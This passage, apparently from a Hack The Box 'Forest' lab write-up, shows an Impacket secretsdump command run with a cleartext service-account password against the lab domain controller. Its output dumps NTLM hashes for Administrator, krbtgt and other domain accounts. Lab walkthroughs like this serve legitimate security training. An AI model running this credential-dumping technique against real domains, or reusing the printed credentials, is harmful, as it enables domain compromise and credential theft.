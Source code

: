 As we select a path and it was successful, we have to move fast and try to use it to dump secrets (NTDS.DIT). Let's use Impacket's Secretdump


### SECRETSDUMP
```
root@kali:~/Documents/HTB-Labs/Forest# /opt/impacket/examples/secretsdump.py -dc-ip forest.htb svc-alfresco:s3rvice@forest.htb
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
```